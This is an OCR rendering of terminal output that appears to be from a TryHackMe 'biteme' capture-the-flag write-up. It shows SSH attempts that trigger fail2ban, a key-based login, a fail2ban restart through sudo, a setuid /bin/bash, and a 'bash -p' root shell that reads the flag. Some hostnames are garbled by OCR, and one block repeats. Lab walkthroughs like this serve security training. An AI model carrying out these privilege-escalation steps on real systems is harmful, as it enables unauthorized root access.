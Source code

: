 
```bash
fred@biteme:~$ sudo systemctl restart fail2ban
fred@biteme:~$ exit
exit
jason@biteme:~$ logout
```


```bash
:~/biteme# ssh fred@biteme.thm
fred@biteme's password: 
Permission denied, please try again.
:~/biteme# fred@biteme's password: 
Permission denied, please try again.
:~/biteme# fred@1biteme's password: 
fred@biteme: Permission denied (publickey,password).
```


```bash
:~/biteme# ssh fred@biteme.thm
fred@biteme's password: 
Permission denied, please try again.
:~/biteme# fred@biteme's password: 
Permission denied, please try again.
:~/biteme# fred@1biteme's password: 
fred@biteme: Permission denied (publickey,password).
```


```bash
:~/biteme# ssh fred@Tbiteme.thm
fred@biteme's password: 
Permission denied, please try again.
:~/biteme# fred@biteme's password: 
Permission denied, please try again.
:~/biteme# fred@1biteme's password: 
fred@biteme: Permission denied (publickey,password).
```


```bash
:~/biteme# ssh -i este jason@biteme.thm
Enter passphrase for key 'este': 
...
jason@biteme:~$ pwd
/home/jason
jason@biteme:~$ cd /etc
jason@biteme:/etc$ cd fail2ban
jason@biteme:/etc/fail2ban$ cd action.d
jason@biteme:/etc/fail2ban/action.d$ sudo -u fred sudo /bin/systemctl restart fail2ban
jason@ibiteme:/etc/fail2ban/action.d$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
jason@biteme:/etc/fail2ban/action.d$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
jason@biteme:/etc/fail2ban/action.d$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
jason@biteme:/etc/fail2ban/action.d$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
THM{0e355b5c907ef7741f40f4a41cc6678d}
```
